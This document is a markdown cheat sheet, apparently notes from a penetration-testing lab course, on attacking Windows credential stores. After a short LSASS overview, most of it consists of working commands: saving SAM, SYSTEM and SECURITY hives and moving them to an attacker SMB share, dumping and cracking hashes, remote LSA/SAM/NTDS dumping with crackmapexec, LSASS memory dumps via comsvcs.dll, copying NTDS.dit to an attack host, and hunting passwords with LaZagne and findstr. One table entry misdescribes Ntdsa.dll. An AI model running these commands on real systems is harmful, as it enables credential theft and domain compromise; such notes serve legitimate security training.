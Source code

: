 ### Windows Authentication Process Overview

![Alt text](../Password/Assets/image.png)

### Local Security Authority Subsystem Service - LSASS

| **Authentication Packages**   | **Description**   |
| --------------|-------------------|
|   Lsasrv.dll    |	The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful. | 
|   Msv1_0.dll  |	Authentication package for local machine logons that don't require custom authentication.   |
|   Samsrv.dll	|   The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs.    |
|    Kerberos.dll   |	Security package loaded by the LSA for Kerberos-based authentication on a machine.  |
|   Netlogon.dll    |	Network-based logon service.    |
|    Ntdsa.dll  |  This library is used to create new records and folders in the Windows registry.  |


## Attacking SAM

| **Registry Hive**   | **Description**   |
| --------------|-------------------|
|   hklm\sam    |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. | 
|   hklm\system  |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.   |
|   hklm\security	|   Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.    |

### Dumping & Cracking SAM (Local)
```powershell
## Copy registry hive
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

## On our local machine
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1137601/Desktop/

## Move copied hive back for local cracking
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData

## Dump hive
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

## Hashcat crack hive
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Dumping SAM (Remotely)

```bash
## Dump LSA Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

## Dump SAM Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Attacking LSASS

### Dumping LSASS

```powershell
## Find LSASS process 
tasklist /svc       # CMD
Get-Process lsass   # Powershell

## Create lsass dump file
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

## Extract credentials 
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

## Attacking Active Directory (AD)

### Attack Flow (Require Privilege Escalation)
```powershell
## Check privileges
net localgroup
net user

## Create Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

## Copy NTDS.dit from VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

## Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

### Alternative Remote Attack Flow

```bash
## Use CrackMapExec to automate the above steps
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Credential Hunting

### Ussing Lazagne
```powershell
start lazagne.exe all
```

### Using findstr

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```


## Useful Repositories

https://github.com/ihebski/DefaultCreds-cheat-sheet
https://github.com/urbanadventurer/username-anarchy